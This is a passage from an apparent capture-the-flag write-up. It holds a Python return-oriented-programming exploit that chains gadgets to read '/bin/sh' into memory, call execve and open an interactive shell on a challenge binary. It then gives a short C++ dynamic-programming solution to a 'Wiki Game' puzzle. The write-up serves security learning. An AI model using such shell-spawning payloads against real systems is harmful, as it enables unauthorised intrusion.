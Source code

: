 ```python
BSS = base + 0x7A038


def gencall(func, a, b, c, d):
    return [
        p(POP_RCX),
        p(d),
        p(CSU_FINAL),
        p(0), p(1), p(a), p(b), p(c), p(func),
        p(CSU_MID),
        p(0), p(0), p(0), p(0), p(0), p(0), p(0),
    ]


payload = b''.join([
    b'\0' + b'A' * pad,
    *gencall(SYSCALL, 0, 0, BSS, len(binsh)),
    *gencall(SYSCALL, 59, BSS, 0, 0),
])

r.sendlineafter('Hostname: ', payload)
time.sleep(1)
r.send(binsh)
r.interactive()
```

# PPC

## Wiki Game

Simple DP.

```cpp
const int N=1005;

std::vector<int>p[N];
int n,m;
bool f[10][N];

int main()
{
    for(int T=in;T--;)
    {
        in,n,m;
        fo1(i,m)
        {
            int x,y;
            in,x,y;
            x++,y++;
            p[x].pb(y);
        }
        int st,ed;
        in,st,ed;
        st++,ed++;
        fo(j,0,6)fo1(i,n)f[j][i]=0;
        f[0][st]=1;
        fo1(i,6)fo1(j,n)for(int k:p[j])f[i][k]|=f[i-1][j];
        bool ok=0;
        fo1(i,6)ok|=f[i][ed];
        out,ok?"YES":"NO",'\n';
        fo1(i,n)p[i].clear();
    }
```